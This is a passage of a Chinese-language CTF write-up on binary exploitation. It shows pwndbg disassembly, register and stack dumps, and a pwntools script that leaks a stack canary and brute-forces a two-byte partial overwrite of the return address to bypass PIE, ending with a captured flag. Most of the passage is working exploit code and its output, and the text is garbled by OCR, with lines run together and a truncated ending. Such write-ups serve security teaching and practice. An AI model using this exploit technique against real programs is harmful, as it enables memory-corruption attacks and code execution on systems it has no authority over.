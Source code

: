 pwndbg> disassemble flagDump of assembler code for function flag: 0x00005555555547f0 <+0>: push rbp 0x00005555555547f1 <+1>: mov rbp,rsp 0x00005555555547f4 <+4>: lea rdi,[rip+0x139] # 0x555555554934 0x00005555555547fb <+11>: call 0x555555554680 system@plt 0x0000555555554800 <+16>: nop 0x0000555555554801 <+17>: pop rbp 0x0000555555554802 <+18>: ret End of assembler dump. 
 
 ```java 
  构造payload，覆盖ret_addr的末尾两个字节



  ``` 
  
p.recvuntil(":\n") payload='a' * offset + p64(canary) + 'bbbbbbbb' + '\xf0\x47'p.send(payload) 
可以看到RAX、Canary、ret_addr的末尾两个字节都已经成功覆盖，后面的工作就是去碰撞。─────────────────────────────[ REGISTERS ]──────────────────────────────── RAX 0xa4c9b736e3763700 RBP 0x7ffe773d1da0 ◂— 0x6262626262626262 ('bbbbbbbb') RSP 0x7ffe773d1d70 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa' RIP 0x55cd0345386f ◂— xor rax, qword ptr fs:[0x28]──────────────────────────────[ DISASM ]───────────────────────────────── ► 0x55cd0345386f xor rax, qword ptr fs:[0x28] 0x55cd03453878 je 0x55cd0345387f ↓ 0x55cd0345387f leave 0x55cd03453880 ret ─────────────────────────── ───[ STACK ]─────────────────────────────────00:0000│ rsi r8 rsp 0x7ffe773d1d70 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'... ↓05:0028│ 0x7ffe773d1d98 ◂— 0xa4c9b736e376370006:0030│ rbp 0x7ffe773d1da0 ◂— 0x6262626262626262 ('bbbbbbbb')07:0038│ 0x7ffe773d1da8 ◂— 0x55cd034547f0 
 
 ```java 
  exp：



  ``` 
  
from pwn import *context.arch = 'amd64'context.log_level = 'debug'context.terminal = ['deepin-terminal', '-x', 'sh' ,'-c']offset = 0x28while True: try: p = process('./test-pie') p.recvuntil("Name:\n") payload='a' * offset # gdb.attach(p) p.sendline(payload) p.recvuntil('a' * offset) p.recv(1) canary = u64('\0' + p.recvn(7)) print hex(canary) p.recvuntil(":\n") 
 
 ```java 
      payload='a' * offset + p64(canary) + 'bbbbbbbb' + '\xf0\x47'
    p.send(payload)
    flag = p.recvall()
    if 'flag' in flag:
        exit(0)
except Exception as e:
    p.close()
    print e



  ``` 
  
pwn@pwn-PC:~/Desktop$ python exp.py [+] Starting local process './test-pie': pid 17736[DEBUG] Received 0x11 bytes: 'Input your Name:\n'[DEBUG] Sent 0x29 bytes: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n'......[+] Receiving all data: Done (37B)[DEBUG] Received 0x25 bytes: 'flag{23dih3879sad8dsk84ihv9fd0wnis0}\n'[] Process './test-pie' stopped with exit code -11 (SIGSEGV) (pid 17739)[] Stopped process './test-pie' (pid 17620 
 